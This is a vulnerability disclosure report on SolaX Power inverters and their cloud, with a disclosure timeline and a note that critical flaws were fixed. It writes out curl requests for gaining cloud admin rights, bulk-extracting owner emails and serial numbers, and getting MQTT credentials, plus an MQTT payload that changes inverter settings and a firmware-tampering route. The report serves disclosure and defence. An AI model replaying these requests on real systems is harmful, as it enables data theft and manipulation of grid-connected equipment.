# Cybersecurity Analysis of the SolaX Power inverter system and cloud

In this report a security analysis of the **SolaX Power inverter system and associated cloud** is presented. 
Different vulnerabilities are described:
* An attacker could easily get admin privileges on the cloud platform. It was then possible to extract many data and manipulate all connected inverters (change parameters including critical parameters, switch on and off...).
* It was possible to extract sensitive data (mail addresses, serial numbers of registered inverters and WiFi devices) from the cloud remotely with a simple account.
* The MQTT broker used for device <> cloud communication was poorly secured, so that messages could be spoofed or injected. Inverters settings could be manipulated.
* Especially the remote firmware update process is done via MQTT: the firmware update images could be manipulated and malicious images distributed. 

> [!NOTE]
>  Critical vulnerabilities have been fixed

## Table of content

[TOE](#toe) \
[Getting admin privileges on the cloud platform](#getting-admin-privileges-on-the-cloud-platform) \
[Data Leakage](#data-leakage) \
[MQTT](#mqtt) \
[Firmware Update](#firmware-update) \
[Exploitation](#exploitation)

## TOE

The TOE consists in a [SolaX Power Inverter](https://de.solaxpower.com/) `X1-0.6-S-D(L)` with a WiFi stick `SolaX Pocket WiFi 3.0` connected to the manufacturer's cloud called [solaxcloud](https://www.solaxcloud.com). 

Here is a block diagram of the system:



A DC/DC boost converter followed by a H-bridge converts the solar energy into grid compatible energy. 
There are two pairs of grid protection relays in series. One pair is controlled by the main CPU (GD32F427VET6) and the DSP together, the other one is controlled by the DSP only (TI TMS320F28035PNT). The H bridge transistors are controlled by the DSP.

The CPU is connected to the WiFi stick via USB. The WiFi Stick is connected - via a router - to a MQTT broker.

The cloud platform can be accessed by clients at `solaxcloud.com`.

### Relays control

In order to switch on all 4 relays, following GPIOs have to be set:
* DSP GPIO 39 set to '1' (power supply of the relay coils)
* DSP GPIO 40 set to '1' (Relay 2a)
* DSP GPIO 4 set to '1' (Relay 2b)
* CPU GPIO PB9 set to '0' (Relay 1a)
* CPU GPIO PE0 set to '0' (Relay 1b)

## Getting admin privileges on the cloud platform

It was simple to elevate privileges from a normal user `enduser` to `admin` by changing the user type `userType` with one API call. The `admin` user has complete control over the cloud platform and especially over the connected inverters.

Here is the api call to get admin privileges (replace the token with a valid session token and the user id `USER_ID` with the actual user id):

```sh
curl 'https://solaxcloud.com/blue/phoebus/login/editUserDetails' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY' \
  -H 'User-Agent: okhttp' \
  -H 'token: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx' \
  --data-raw $'------WebKitFormBoundaryY\r\nContent-Disposition: form-data; 
  name="userType"\r\n\r\n1\r\n------WebKitFormBoundaryY\r\nContent-Disposition: form-data; 
  name="userName"\r\n\r\n\r\n------WebKitFormBoundaryY\r\nContent-Disposition: form-data; 
  name="id"\r\n\r\n[USER_ID]\r\n------WebKitFormBoundaryY--\r\n' 
```

This is the main page as `admin`:



The `admin` user can do remote maintenance on all inverters, here an example (device management > remote settings):



Critical parameters can be changed too, the device (global) default passwords have not been changed in most of the cases:



The `admin` user can also trigger firmware update on inverter groups.

## Data leakage

Following data could be extracted with a simple account:
* EMail address of the device owner (email addresses are used as login name)
* All involved serial numbers of inverters and wifi devices

Note that at the time this report is written, more than 350.000 devices were potentially accessible online, 55.000 thereof in Germany.

The cloud web access at `solaxcloud.com` consists in many java-scripts running on the client side. Many security relevant checks are done on the client side, so that they can be bypassed. 
For example, after log-in following url was displayed: `https://solaxcloud.com/#/overview`. By changing it to `https://solaxcloud.com/#/deviceupgrade` the list of all accessible inverters was shown (including owners mail addresses, serial numbers, plant names):



Here is the command used to get the information from 50.000 plants in Germany (the token is a simple session token):

```sh
curl 'https://www.solaxcloud.com/blue/phoebus/update/getUpdatePage' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryI' \
  -H 'User-Agent: ' \
  -H 'token: xxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx' \
  --data-raw $'------WebKitFormBoundaryI\r\nContent-Disposition: form-data; 
  name="nation"\r\n\r\nGERMANY\r\n------WebKitFormBoundaryI\r\nContent-Disposition: form-data; 
  name="agentId"\r\n\r\n\r\n------WebKitFormBoundaryI\r\nContent-Disposition: form-data; 
  name="size"\r\n\r\n50000\r\n------WebKitFormBoundaryI\r\nContent-Disposition: form-data; 
  name="current"\r\n\r\n1\r\n------WebKitFormBoundaryI--\r\n'
```

And here is a sample of the result (2 plants):

```json
[
  {
    "id": "000000",
    "sid": "000000",
    "wifiSN": "SRxxxxxxxx",
    "deviceType": "8",
    "moduleType": null,
    "wifiVersion": "3.008.10",
    "updateFlag": 0,
    "updateStatusFlag": null,
    "upgradeTime": null,
    "nation": "GERMANY",
    "batteryFlag": "1",
    "feedEnable": null,
    "blockFlag": null,
    "progress": null,
    "type": null,
    "value": null,
    "batteryType": null,
    "batterySlaverVer": null,
    "batterySlaverVer2": null,
    "chargeArmVer": null,
    "inverterType": 14,
    "agentId": null,
    "agentIds": null,
    "firmId": null,
    "inverterSN": null,
    "batterySN": null,
    "firmIds": null,
    "isSub": null,
    "subUserId": null,
    "installerId": null,
    "currentUserId": null,
    "userId": null,
    "subGroupId": null,
    "batteryBrand": null,
    "siteName": "D",
    "batterySlaveVer1": null,
    "userName": "d@gmx.de",
    "loginName": "d@gmx.de",
    "deviceSN": "Hxxxxxxxxxxxxx",
    "batterySlaverType": null,
    "enableFlag": 1,
    "inverterSnList": null,
    "upgradeGroupId": null,
    "siteId": 0000000000000000000,
    "siteIds": "0000000000000000000",
    "loaderVersion": "1.09",
    "armVersion": "1.27",
    "inverterVersion": "1.29",
    "inverterSlaverVer": "0.00",
    "biVersion": "",
    "batteryMasterVer": null,
    "ids": "000000",
    "transportType": null,
    "authorizeFlag": null,
    "useStatus": null,
    "siteAccessFlag": null,
    "websiteType": null,
    "dversion": null,
    "aversion": null
  },
  {
    "id": "000000",
    "sid": "000000",
    "wifiSN": "SR6xxxxxxx",
    "deviceType": "8",
    "moduleType": null,
    "wifiVersion": "3.009.03",
    "updateFlag": 0,
    "updateStatusFlag": null,
    "upgradeTime": null,
    "nation": "GERMANY",
    "batteryFlag": "1",
    "feedEnable": null,
    "blockFlag": null,
    "progress": null,
    "type": null,
    "value": null,
    "batteryType": null,
    "batterySlaverVer": null,
    "batterySlaverVer2": null,
    "chargeArmVer": null,
    "inverterType": 14,
    "agentId": null,
    "agentIds": null,
    "firmId": null,
    "inverterSN": null,
    "batterySN": null,
    "firmIds": null,
    "isSub": null,
    "subUserId": null,
    "installerId": null,
    "currentUserId": null,
    "userId": null,
    "subGroupId": null,
    "batteryBrand": null,
    "siteName": "x@gmail.com Site 1",
    "batterySlaveVer1": null,
    "userName": "x@gmail.com",
    "loginName": "x@gmail.com",
    "deviceSN": "Hxxxxxxxxxxxxx",
    "batterySlaverType": null,
    "enableFlag": 1,
    "inverterSnList": null,
    "upgradeGroupId": null,
    "siteId": 0000000000000000000,
    "siteIds": "0000000000000000000",
    "loaderVersion": "1.09",
    "armVersion": "1.24",
    "inverterVersion": "1.23",
    "inverterSlaverVer": "0.00",
    "biVersion": "",
    "batteryMasterVer": null,
    "ids": "000000",
    "transportType": null,
    "authorizeFlag": null,
    "useStatus": null,
    "siteAccessFlag": null,
    "websiteType": null,
    "dversion": null,
    "aversion": null
  }
]
```

## MQTT

### Access with credentials obtained from HTTP API

The devices communicate with the cloud via a MQTT broker on port 2901 (w/o TLS) or 8883 (w/ TLS).
The MQTT broker is protected via username and password. However, valid credentials were available using an http request:

```
curl https://www.solaxcloud.com/green/phoebus/mqttConfig/getMqttList -H "token: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"
```

Username `zero` with the given password could be used to access the broker.

The MQTT broker did not implement fine-grained access control and authorization. After primary authentication via username and password, no restrictions could be noticed.
It was possible to publish messages to any topic and subscribe to any topic. A subscription to the `$SYS` topic was possible too. 

### Access with credentials obtained from WiFi stick

The inverter WiFi stick communicates with the MQTT server via TLS (port 8883). However, it did not check the server certificate at all, so that it is simple to sniff the communication with a man-in-the-middle proxy. The MQTT connect command can be read out, it contains the inverter credentials:



There was no further authorization in the MQTT broker, so that it was possible to publish messages to any topic and subscribe to any topic with these credentials too.

### Manipulate inverter settings via MQTT

Every connected inverter can be addressed via MQTT and settings can be changed.

Following topics are used for a connection:
1. `base/bdown/Sxxxxxxxxx`: (to the inverter). A 128 bit uid is transmitted in the payload (e.g. `0123456789abcdef0123456789abcdef`) and used in the topic of the response. The serial number of the WiFi stick is used as destination address (how to find serial numbers is explained in the previous section).
2. `base/bup/Sxxxxxxxxx/0123456789abcdef0123456789abcdef`: inverter answers

Here is a screenshot of a transmission:



Note that all MQTT messages have a CRC16 (CRC-16/BUYPASS) appended at the end of each message.

With the credentials from the previous section, it is possible to address all connected inverters and change their settings and state remotely.

Here is an example of message sequence used to change the display language on an inverter (`Sxxxxxxxxx` is the serial number of the associated WiFi stick):

* Direction: to the inverter (change language / set an internal register): 
  + Topic: `base/bdown/Sxxxxxxxxx` 
  + Payload:  `2424 3200 0103 3761 3438 6638 3538 3130 3831 3435 6463 6266 3336 6364 3235 3933 3139 6334 6263 0000 0000 0203 0047 0100 216b`
* Direction: from the inverter (acknowledgement): 
  + Topic: `base/bup/Sxxxxxxxxx/7a48f858108145dcbf36cd259319c4bc` 
  + Payload:  `2424 3200 0103 3761 3438 6638 3538 3130 3831 3435 6463 6266 3336 6364 3235 3933 3139 6334 6263 0000 0000 0203 0047 0100 216b`

## Firmware Update

### Firmware Update Image Format

The device implements two updatable controllers: the main CPU (arm based) and a DSP. Each device has its own update image. Both images are distributed in Intel hex format. 

Here is the beginning of a DSP update image:
```
:02000004003EBC
:04800200DF98000003
:02000004003EBC
:04800400007F465C57
:20800600FE02761F024A92056057C524A326A9A903A78AA9091E1EA602460FA4643D761F2E
```
It contains the length of the image at 0x003E8002: `0xDF98`.

Here is the end of the DSP image:
```
:1C5F8E00566700A529028CAA2AAA07AB566300A903A5566300A907A456860006B5
:02000004003FBB
:025F9C00802162
:00000001FF
```
It contains a CRC16 (CRC-16/ARC, CRC bytes are swapped) of the image w/o CRC at the end: `0x8021`. 

No cryptographic signature has been found in both images (arm CPU and DSP).

### Firmware Update Process via MQTT

The firmware update mechanism is done via MQTT. The firmware update images are distributed via MQTT **retained** messages at the topics `update/package/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/#`. Images are split in smaller chunks which fit in a MQTT payload packet. For example, `update/package/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/1` is the first chunk, `update/package/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/2` is the second chunk, etc...

Here is an example of DSP update image packet (1. packet):



Here is an example of an arm CPU update image packet (1. packet):



Since there is no access control and no cryptographic signature, we assume that it is possible to manipulate these messages and therefore manipulate the firmware update images. 
In that case all devices which are triggered to update their firmware would get a manipulated firmware image. 

As an example, a simple message could be published to an update topic without restriction:



Here is a second example of message published to an update topic with **retain** property:



## Exploitation

All connected devices could be manipulated remotely via remote control or malicious firmware updates. By updating both images (DSP + arm CPU), both relays pairs could be manipulated. 
The CPU could be misused for criminal activities too (botnet).

## Disclosure

2023-11-12: Report sent to BSI

2023-11-20: First answer from BSI

2024-06-18: Critical vulnerabilities have been fixed

